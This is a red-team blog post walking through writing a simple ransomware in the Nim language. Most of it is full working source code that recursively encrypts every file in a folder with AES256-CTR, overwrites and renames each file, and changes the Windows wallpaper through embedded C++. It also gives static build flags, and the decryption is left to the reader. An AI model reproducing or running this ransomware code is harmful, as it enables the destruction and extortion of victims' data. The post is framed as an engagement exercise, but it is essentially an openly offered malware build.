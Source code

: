 ```yaml
---
title: Exploring Nim language - Writing a ransomware
author: Ilan Kalendarov
date: 2021-03-09 14:10:00 +0800
categories: [Red Team]
tags: [ransomware, red team]

---
```


## Introduction

------

During one of my engagements I needed to encrypt an asset on the domain so, I started to explore what would be the simplest yet not easy to decrypt way of doing so. I came by the Nim language and started building my "Ransomware".

The Nim language was really interesting to me as it compiles to C, C++ or JavaScript and has a syntax that resembles Python.  I noticed the language is getting more popular on Twitter thanks to [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) and his amazing repo [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim). After exploring I saw a few new malware that has been [rewritten in  Nim](https://www.bleepingcomputer.com/news/security/trickbots-bazarbackdoor-malware-is-now-coded-in-nim-to-evade-antivirus/) So I decided to hop on the Nim trend and try to write simple yet powerful ransomware.



## Preparing the environment 

------

First, we need to prepare our setup. You can find the installation page [here](https://nim-lang.org/install.html). After installing Nim we need to set up our dev environment. You can follow the steps inside the [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim#setting-up-a-dev-environment) repo.  Now we can actually start coding



## The encryption

------

Inside the OffensiveNim repo, there's a [script](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/encrypt_decrypt_bin.nim) that shows how to handle encryption in Nim, AES256-CTR to be specific, It has all the information we need to start writing our encryption part of the ransomware.  I want to be able to encrypt any given folder recursively, Get the desired folder and key as arguments,Change the file extension and also change the wallpaper (Probably with Windows API). At this point the code should look like this:

```nim
import os
import strformat
import base64
import nimcrypto
import nimcrypto/sysrand

func toByteSeq*(str: string): seq[byte] {.inline.} =
    # Converts a string to the corresponding byte sequence
    @(str.toOpenArrayByte(0, str.high))

let
    password: string = paramStr(1) # Our secret key
    path: string = paramStr(2)	# Full path to the folder
    
for file in walkDirRec path: # For any file/folder inside our folder
   let fileSplit = splitFile(file)
   if fileSplit.ext != ".encrypted": # Checking if the file is not encrypted yet
    echo fmt"[*] Encrypting: {file}"
    var
        inFileContents: string = readFile(file) # Getting the content of the file
        plaintext: seq[byte] = toByteSeq(inFileContents) # Formating the content to bytes
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        encrypted: seq[byte] = newSeq[byte](len(plaintext))

    iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 133, 149]
    var expandedKey = sha256.digest(password)
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))
        
        
    ectx.init(key, iv)
    ectx.encrypt(plaintext, encrypted)
    ectx.clear()

    let encodedCrypted = encode(encrypted) # This var contains the encrypted data
    let finalFile = file & ".encrypted" # Giving a new extension
    moveFile(file, finalFile) # Changing the file extension
    writeFile(finalFile, encodedCrypted) # Writing the encrypted data to the file (Deletes everything  that was there before)

```

Lets try it ! 

![1encrypt](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/Ransomware/1encrypt.gif)

Great it works perfectly. Now, let's try to change the wallpaper. I did some searching and came by the above [API Call](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-systemparametersinfow) from Microsoft - `SystemParametersInfoW`. According to the docs - 

> Retrieves or sets the value of one of the system-wide parameters. This function can also update the user profile while setting a parameter.

In particular the `SPI_SETDESKWALLPAPER` was the flag that was interesting. With the following C++ code we'll be able to change the wallpaper:

```c++
#include <iostream>
#include <Windows.h>

int WallPaper()
{
   const wchar_t *path = L"C:\\Users\\Public\\pic.jpg";
   SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, (void *)path, SPIF_UPDATEINIFILE);      
   return 0;
}
```

Now to the fun part, We don't need to work hard here with trying to convert the C++ code to Nim, We can just copy-paste (with some modification) the code directly to Nim !

This would be the final code:

```nim
import os
import strformat
import base64
import nimcrypto
import nimcrypto/sysrand

func toByteSeq*(str: string): seq[byte] {.inline.} =
    # Converts a string to the corresponding byte sequence
    @(str.toOpenArrayByte(0, str.high))

let
    password: string = paramStr(1) # Our secret key
    path: string = paramStr(2)	# Full path to the folder
 
# Start of the C++ code
{.emit: """
#include <iostream>
#include <Windows.h>

int Wallpaper()
{
   const wchar_t *path = L"C:\\Users\\Public\\pic.jpg";
   SystemParametersInfoW(SPI_SETDESKWALLPAPER, 0, (void *)path, SPIF_UPDATEINIFILE);      
   return 0;
}
""".}

# Importing the code to nim
proc Wallpaper(): int
    {.importcpp: "Wallpaper", nodecl.}
    
var result = Wallpaper()

for file in walkDirRec path: # For any file/folder inside our folder
   let fileSplit = splitFile(file)
   if fileSplit.ext != ".encrypted": # Checking if the file is not encrypted yet
    echo fmt"[*] Encrypting: {file}"
    var
        inFileContents: string = readFile(file) # Getting the content of the file
        plaintext: seq[byte] = toByteSeq(inFileContents) # Formating the content to bytes
        ectx: CTR[aes256]
        key: array[aes256.sizeKey, byte]
        iv: array[aes256.sizeBlock, byte]
        encrypted: seq[byte] = newSeq[byte](len(plaintext))

    iv = [byte 183, 142, 238, 156, 42, 43, 248, 100, 125, 249, 192, 254, 217, 222, 133, 149]
    var expandedKey = sha256.digest(password)
    copyMem(addr key[0], addr expandedKey.data[0], len(expandedKey.data))
        
        
    ectx.init(key, iv)
    ectx.encrypt(plaintext, encrypted)
    ectx.clear()

    let encodedCrypted = encode(encrypted) # This var contains the encrypted data
    let finalFile = file & ".encrypted" # Giving a new extension
    moveFile(file, finalFile) # Changing the file extension
    writeFile(finalFile, encodedCrypted) # Writing the encrypted data to the file (Deletes everything  that was there before)
```

Now, I'll compile the code with the above flags:

`nim cpp -d:release --app=console --opt:speed --passl="-static -static-libgcc -static-libstdc++" enc.nim`

And the result :

![2encrypt](https://raw.githubusercontent.com/IlanKalendarov/IlanKalendarov.github.io/main/Images/Ransomware/2encrypt.gif)

I'll let you figure out the decryption part :)



## Conclusion 

------

As you can see, Nim is a really powerful language, It took me an hour to build this "Ransomware" and I think we could really expand the functionality of the program in the future. Maybe I'll make "Exploring Nim language" a series who knows.  



## Links & Resources

------

- [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim)

* [Nim language](https://nim-lang.org/)

